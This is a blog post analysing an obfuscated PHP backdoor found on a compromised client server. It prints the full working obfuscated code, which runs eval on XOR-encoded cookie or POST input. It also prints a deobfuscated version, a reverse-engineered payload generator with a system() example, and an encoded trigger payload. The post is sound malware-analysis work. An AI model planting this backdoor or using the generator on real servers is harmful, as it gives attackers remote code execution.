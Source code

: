 ```yaml
---
layout: default
title: Obfuscated PHP Backdoor script analysis 1
date: 2018-08-09
categories: 
    - "php"
    - "obfuscation"
---
```

[home](/)


# {{ page.title }}

So, one of our clients have had some unwanted visitors, leaving a couple
of gifts, and I thought I would take a closer look at some of these.

One of the dropped files were a short .php file, with some obfuscated
code:

```php
<?php
$rrgdaww = 'b-x5mrc\'lsv6#ufp394n*Hig1_tae87yk2od';$lyqov = Array();$lyqov[] = $rrgdaww[21].$rrgdaww[20];$lyqov[] = $rrgdaww[12];$lyqov[] = $rrgdaww[28].$rrgdaww[17].$rrgdaww[24].$rrgdaww[0].$rrgdaww[14].$rrgdaww[11].$rrgdaww[30].$rrgdaww[35].$rrgdaww[1].$rrgdaww[30].$rrgdaww[14].$rrgdaww[33].$rrgdaww[0].$rrgdaww[1].$rrgdaww[18].$rrgdaww[33].$rrgdaww[14].$rrgdaww[14].$rrgdaww[1].$rrgdaww[29].$rrgdaww[11].$rrgdaww[35].$rrgdaww[3].$rrgdaww[1].$rrgdaww[16].$rrgdaww[27].$rrgdaww[27].$rrgdaww[3].$rrgdaww[24].$rrgdaww[27].$rrgdaww[30].$rrgdaww[3].$rrgdaww[14].$rrgdaww[33].$rrgdaww[28].$rrgdaww[17];$lyqov[] = $rrgdaww[6].$rrgdaww[34].$rrgdaww[13].$rrgdaww[19].$rrgdaww[26];$lyqov[] = $rrgdaww[9].$rrgdaww[26].$rrgdaww[5].$rrgdaww[25].$rrgdaww[5].$rrgdaww[28].$rrgdaww[15].$rrgdaww[28].$rrgdaww[27].$rrgdaww[26];$lyqov[] = $rrgdaww[28].$rrgdaww[2].$rrgdaww[15].$rrgdaww[8].$rrgdaww[34].$rrgdaww[35].$rrgdaww[28];$lyqov[] = $rrgdaww[9].$rrgdaww[13].$rrgdaww[0].$rrgdaww[9].$rrgdaww[26].$rrgdaww[5];$lyqov[] = $rrgdaww[27].$rrgdaww[5].$rrgdaww[5].$rrgdaww[27].$rrgdaww[31].$rrgdaww[25].$rrgdaww[4].$rrgdaww[28].$rrgdaww[5].$rrgdaww[23].$rrgdaww[28];$lyqov[] = $rrgdaww[9].$rrgdaww[26].$rrgdaww[5].$rrgdaww[8].$rrgdaww[28].$rrgdaww[19];$lyqov[] = $rrgdaww[15].$rrgdaww[27].$rrgdaww[6].$rrgdaww[32];foreach ($lyqov[7]($_COOKIE, $_POST) as $upqahri => $cmxizo){function qhdpi($lyqov, $upqahri, $qbwar){return $lyqov[6]($lyqov[4]($upqahri . $lyqov[2], ($qbwar / $lyqov[8]($upqahri)) + 1), 0, $qbwar);}function gwwsryf($lyqov, $mofkmwg){return @$lyqov[9]($lyqov[0], $mofkmwg);}function dhrqt($lyqov, $mofkmwg){$lqofrk = $lyqov[3]($mofkmwg) % 3;if (!$lqofrk) {eval($mofkmwg[1]($mofkmwg[2]));exit();}}$cmxizo = gwwsryf($lyqov, $cmxizo);dhrqt($lyqov, $lyqov[5]($lyqov[1], $cmxizo ^ qhdpi($lyqov, $upqahri, $lyqov[8]($cmxizo))));}
```

At first glance, this does not make much sense, though there are some
noticeable signs that should trigger the alarm bells:

-   The apparent use of obfuscation
-   The direct client interaction shown with \$\_COOKIE & \$\_POST
-   And the most alarming one, is the presence of the "eval" function

After cleaning it up abit, by adding some line breaks and indentation,
it starts to become clearer what is going on:

![](/Pictures/PHP01_01.png)



Its visible that:

-   A variable is initialized with some kind of string
-   An array is created with values concatenated from offsets in the
    above string
-   A loop over all key:value pairs from \$\_COOKIE & \$\_POST is
    happening
-   At some point an expression is evaluated

Let's take a look what the array contains after assignment:

```php
$lyqov = Array();
$lyqov[0] = "H*";
$lyqov[1] = "#";
$lyqov[2] = "e91bf67d-7f2b-42ff-86d5-3aa51a75f2e9";
$lyqov[3] = "count";
$lyqov[4] = "str_repeat";
$lyqov[5] = "explode";
$lyqov[6] = "substr";
$lyqov[7] = "array_merge";
$lyqov[8] = "strlen";
$lyqov[9] = "pack";
```
  
A lot of those value looks unmistakably like the names of PHP functions.

Let's make the script more readable with some Search/Replace, replacing
all the array references with its corresponding array value, as well as
some quick renaming of functions, variables and parameters.

```php
$mainArray = Array();
$mainArray[0] = "H*";
$mainArray[1] = "#";
$mainArray[2] = "e91bf67d-7f2b-42ff-86d5-3aa51a75f2e9";
$mainArray[3] = "count";
$mainArray[4] = "str_repeat";
$mainArray[5] = "explode";
$mainArray[6] = "substr";
$mainArray[7] = "array_merge";
$mainArray[8] = "strlen";
$mainArray[9] = "pack";

foreach (array_merge($_COOKIE, $_POST) as $key => $value){
	
	function func1($mainArray, $key, $func1_p3){
		return substr(str_repeat($key . "e91bf67d-7f2b-42ff-86d5-3aa51a75f2e9", ($func1_p3 / strlen($key)) + 1), 0, $func1_p3);
	}
	
	function func2($mainArray, $func2_p2){
		return @pack("H*", $func2_p2);
	}
	
	function func3($mainArray, $func3_p2){
		
		$flag = count($func3_p2) % 3;

		if (!$flag) {
			eval($func3_p2[1]($func3_p2[2]));
			exit();
		}
	}

	$value = func2($mainArray, $value);

	func3($mainArray, explode("#", $value ^ func1($mainArray, $key, strlen($value))));
}
```


It now possible to see what is going on, but to fully understand the
functionality, I decided to take a deeper look by going through each
section, and doing some rewriting where's needed, as well as adding some
comments.

```php
  // mainArray is no longer needed

  // Iterate all cookie and post parameters
  foreach (array_merge($_COOKIE, $_POST) as $key => $value){
  
    // create repeating XOR cipher key to decipher $value
    function xorKey($key, $valueLen){
      // string substr ( string $string , int $start [, int $length ] )
      return substr(
        // string str_repeat ( string $input , int $multiplier )
        // Name of key used to deliver the payload, concatenated with some id eg. payloads are designed for specific targets, or atleast only accessible with id knowledge
        // Repeat xorKey to atleast length of $value
        str_repeat($key . "e91bf67d-7f2b-42ff-86d5-3aa51a75f2e9", ($valueLen / strlen($key)) + 1),
        0,
        $valueLen
      );
    }
  
    // Get length of $value before conversion to bin
    $valueLen = strlen($value);

    // Convert a binary expression (e.g., "01000001 01000010 01000011") into a binary-string
    // Note : The @ is the error suppression operator in PHP! (Meaning any error in pack, will be ignored)
    $value = @pack("H*", $value);

    // XOR 
    /*
      $value : supplied XOR cipher payload from entry arrays
      $xorKey : XOR cipher key fitted to length of $value ($key."e91bf67d-7f2b-42ff-86d5-3aa51a75f2e9") * times to be larger than length of $value
    */
    $payload = $value ^ xorKey($key, $valueLen);    
    
    // Create array for each element separated by "#"
    $payloadArr = explode("#", $payload);
    
    // is array length divisable by 3
    $flag = count($payloadArr) % 3;
    if (!$flag) {
      // success
      /*
        $payload[1] : function or method name, likely something like base64_decode or system
        $payload[2] : parameter for above function
      */
      eval($payloadArr[1]($payloadArr[2]));
      exit();
    }
    
  }
```

To summarise what is going on there, the script parses all parameters
provided in \$\_COOKIE & \$\_POST, looking for a key value pair, that
can be deciphered and on success evaluated.

Script flow:

1.  It iterates over all key:value pairs in $_COOKIE & $_POST,
    giving any client access to invoke this scripts functionality.

2.  To check if a key:value is a valid "payload", following is applied:

		a.  A repeating XOR cipher key is generated, based on key name and a "unique" id in the script.
		b.  The value is converted to binary.
		c.  XOR is then applied to the binary value, using previously generated key.
		d.  It is then made into an array, expecting each element is separated by "#".
		e.  If this array contains 3 (6,9..) elements, it's assumed a valid payload.

3.  If a valid payload was found, it is provided to the eval function,
    giving access to running any serverside code supplied!

4.  Script ends execution flow, if 1 valid payload is found, or when all
    key:value pairs have been processed.

We now know that a valid trigger would look something like this:

```php
$_POST = [
  "payload" => "0123456789abcdef"
];
```

To get a better look at what a payload would look like, I reversed the
functionality to be able to generate a valid payload.

```php
// Builds the payload, 3 examples, only 1st one is used
$payload = [
	// base64_decode("echo \"Hi\"; ")
	"unknwown",
	"base64_decode",
	base64_encode("echo \"Hi\"; "),
	
	// system('ls-lah')
	"unknwown",
	"system",
	"'ls-lah'",


	"unknwown",		// [0] Does not seem to be used, but could be to prevent accidentally processing "normal" parameters containing "#"
	"function_name",	// [1] Function name
	"function_param",	// [2] Function param
];

// Convert payload to string, separating entries by "#"
$payload = implode("#", $payload);

// Set a key name for the payload, used when delivering the payload to the target
$payloadKeyName = "payload";

// Set ID, used for either specific targets or as an access prevention to the specific backdoor script
$ID = "e91bf67d-7f2b-42ff-86d5-3aa51a75f2e9";

// Create repeating XOR cipher key from ($payloadKeyName & $ID)
$xorKey = str_repeat($payloadKeyName . $ID, (strlen($payload) / strlen($payloadKeyName)) + 1);

// XOR cipher the $payload using the $xorKey
$pXOR = $payload ^ $xorKey;

// Convert XOR'ed payload into a hexadecimal string
$finishedPayload = @unpack("H*", $pXOR);
```


That gives us following payload:
```php
[
"payload" => "050f1202180e130b1a530315530150725303510d4951113c316357541d744460260a5c7e18760845470b521e16161b0142171c4a45070b157e085a59047a2f4a78651e0e4c7e410a7c47405c"
]
```

And with a POST request to the initial script, we get a fine little "Hi"
message. =)

Oh and btw, VirusTotal had limited detection rate for this piece.

![](/Pictures/PHP01_02.png)



[home](/)

